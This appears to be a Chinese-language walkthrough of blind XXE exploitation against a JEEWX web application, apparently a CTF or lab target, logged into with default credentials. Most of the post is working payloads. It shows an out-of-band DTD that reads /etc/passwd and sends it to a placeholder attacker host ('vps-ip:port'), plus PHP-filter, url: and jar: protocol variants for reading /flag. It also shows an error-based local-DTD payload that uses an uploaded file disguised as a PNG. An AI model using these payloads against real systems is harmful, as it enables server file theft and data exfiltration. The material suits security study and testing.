




当我们发现一个XXE的时候，支持外部实体，但是服务端无回显。在这种情况，你有两种选择：**error-based** 或者 **out-of-band** 。

<!-- more -->


访问发现是JEEWX系统，使用admin/123456登录。

点击微信配置——>公众号测试

发现如下数据包，看起来存在xxe漏洞，支持外部实体。

```
POST /wechatController.do?wechat HTTP/1.1
Host: xxxxxxxx:50636
User-Agent: Mozilla/5.0xxxxxx
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: text/xml
Content-Length: 270
Origin: http://xxxxxxxx:50636
Connection: close
Referer: http://ip:50636/commonweixin/back/myJwWebJwid/list.do
Cookie: JSESSIONID=2AA6D309ADC8925576F35xxxxxxxx

<?xml version="1.0"?>
<!DOCTYPE message [<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">]><xml>
<ToUserName>test</ToUserName>
<FromUserName>test</FromUserName>
<CreateTime>test</CreateTime>
<MsgType>test</MsgType>
<Content>test</Content>
</xml>
```

查看响应包

```
HTTP/1.1 200 
Content-Length: 32
Date: Tue, 22 Nov 2022 10:27:27 GMT
Connection: close

{msg=xml parse success,no error}
```

确定没有回显点，尝试用XXE盲打。


## XXE out-of-band

aa.dtd（vps)

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://vps-ip:port/?file=%file;'>">
```


payload

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://vps-ip:port/aa.dtd">
%remote;
%all;
%send;
]>
```

返回结果如下，如果java版本java1.7+，不能直接使用file:///	

 参考：

 http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html  

https://lalajun.github.io/2019/12/03/WEB-XXE/#%E5%8D%8F%E8%AE%AE%E7%BB%95%E8%BF%87



我们将aa.dtd改动一下，使用不存在的一个文件，看有什么报错

```
<!ENTITY % file SYSTEM "file:///etxxxxxxxxxxx">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://vps-ip:port/?file=%file;'>">
```

再次请求，返回如下报错

```
{msg=xml parse error, error=org.dom4j.DocumentException: /etxxxxxxxxxxx (No such file or directory) Nested exception: /etxxxxxxxxxxx (No such file or directory)}
```

说明是存在xxe漏洞的，没有找到这个不存在的文件。


**如果是php的题目我们可以用php封装器绕过对file协议的检测**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http:/ip:port/?file=%file;'>">
```


但是这里可以判断是java的，我们可以用url协议和，jar协议，在服务端重新部署

- url

  ```
  <!ENTITY % file SYSTEM "file:////flag">
  <!ENTITY % all "<!ENTITY &#37; send SYSTEM 'url://vps-ip:port/?file=%file;'>">
  ```

  

- jar

  ```
  <!ENTITY % file SYSTEM "file:////flag">
  <!ENTITY % all "<!ENTITY &#37; send SYSTEM 'jar://vps-ip:port/?file=%file;'>">
  ```

  

再次请求




## 本地DTD方式利用XXE

在图文素材的文件上传处，上传文件获取到绝对路径

```
{"success":true,"msg":"文件上传成功","obj":null,"attributes":{"savePath":"/jeewx-data/1c53c34494674865b5e947db1a8de74d.png","fileKey":"","url":"/imgs/back/1c53c34494674865b5e947db1a8de74d.png"}}
```

根据这篇文章：https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

我们可以上传一个dtd文档，但是这里只支持图片格式，我们后缀就用png，试一试。


上传的dtd文件如下

```
<!ENTITY % condition "and | or | not | equal | contains | exists | subdomain-of">
<!ELEMENT pattern (%condition;)>
```

原理是：This works because all XML entities are constant. If you define two entities with the same name, only the first one will be used.





payload

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///jeewx-data/950e68c86579486ab5891fc49d23d244.png">

    <!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
```




## 参考

-  http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html  

- https://lalajun.github.io/2019/12/03/WEB-XXE/#%E5%8D%8F%E8%AE%AE%E7%BB%95%E8%BF%87

- https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/


